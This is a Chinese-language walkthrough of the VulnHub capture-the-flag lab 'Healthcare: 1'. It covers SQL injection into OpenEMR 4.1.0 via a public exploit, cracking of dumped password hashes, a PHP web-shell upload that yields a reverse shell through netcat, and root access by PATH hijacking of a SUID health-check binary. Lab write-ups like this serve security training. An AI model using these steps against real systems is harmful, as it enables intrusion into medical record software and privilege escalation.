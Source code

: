 # Healthcare: 1

2025.03.02 https://www.vulnhub.com/entry/healthcare-1,522/

[video](https://www.bilibili.com/video/BV1ZBXfYiEzR/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

ftp 目前不能匿名登陆。

web 发现 http://192.168.5.39/robots.txt 访问其中提到的路径都是不存在， gitweb 也是访问不存在。

发现 http://192.168.5.39/openemr/ 版本显示 OpenEMR v4.1.0 ，查找该版本是否有漏洞，存在 sql 注入，使用这个 exp https://www.exploit-db.com/exploits/49742 修改 py 文件中的 url 为 39 主机，执行脚本，在进行 user 用户爆破：

```
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

john 爆破得到明文密码：

```
medical          (medical)
ackbar           (admin)
```

用 admin/ackbar 登陆系统，在左侧菜单 Administration -> Files 处上传 php shell 文件，保存在 /var/www/html/openemr/sites/default/images 中：

```
nc -lvnp 8888
curl http://192.168.5.39/openemr/sites/default/images/8888.php
```

得到了反弹的 shell：

```
bash-4.1$ id
id
uid=479(apache) gid=416(apache) groups=416(apache)
```

先找到了 user flag：

```
bash-4.1$ cat /home/almirant/user.txt
d41d8cd98f00b204e9800998ecf8427e
```

发现 medical 用户，用之前的密码 medical 可以切换到该用户。这里发现了密码文件：

```
[medical@localhost Documents]$ cat Passwords.txt
PCLINUXOS MEDICAL
root-root
medical-medical

OPENEMR
admin-admin
medical-medical
```

但是 root 的密码不是 root，另寻其他路径。

发现一堆 unknow 的 suid 程序，看看哪个可以利用：

```
-rwsr-xr-x 1 root root 11K Jun 11  2011 /usr/sbin/fileshareset (Unknown SUID binary!)
-rwsr-xr-x 1 root root 29K Dec 28  2010 /usr/bin/pumount (Unknown SUID binary!)
-rwsr-xr-x 1 root root 120K Nov 28  2010 /usr/bin/wvdial (Unknown SUID binary!)
-rws--x--x 1 root root 63K Jan 23  2010 /usr/bin/sperl5.10.1 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 362K Jan 18  2011 /usr/bin/gpgsm (Unknown SUID binary!)
-rwsr-sr-x 1 root root 5.7K Jul 29  2020 /usr/bin/healthcheck (Unknown SUID binary!)
-rwsr-xr-x 1 root root 5.8K Sep 22  2011 /usr/bin/Xwrapper (Unknown SUID binary!)
```

发现 healthcheck 调用了一些系统命令：

```
[medical@localhost ~]$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

可以进行命令劫持：

```
cd /tmp
echo '/bin/bash' > ifconfig
chmod +x ifconfig
PATH=/tmp:$PATH
/usr/bin/healthcheck
```

得到了最终的 root flag：

```
[root@localhost tmp]# id
uid=0(root) gid=0(root) groups=0(root),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),500(medical),501(fuse)
[root@localhost tmp]# cd /root
[root@localhost root]# ls
Desktop/  Documents/  drakx/  healthcheck*  healthcheck.c  root.txt  sudo.rpm  tmp/
[root@localhost root]# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          

Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```
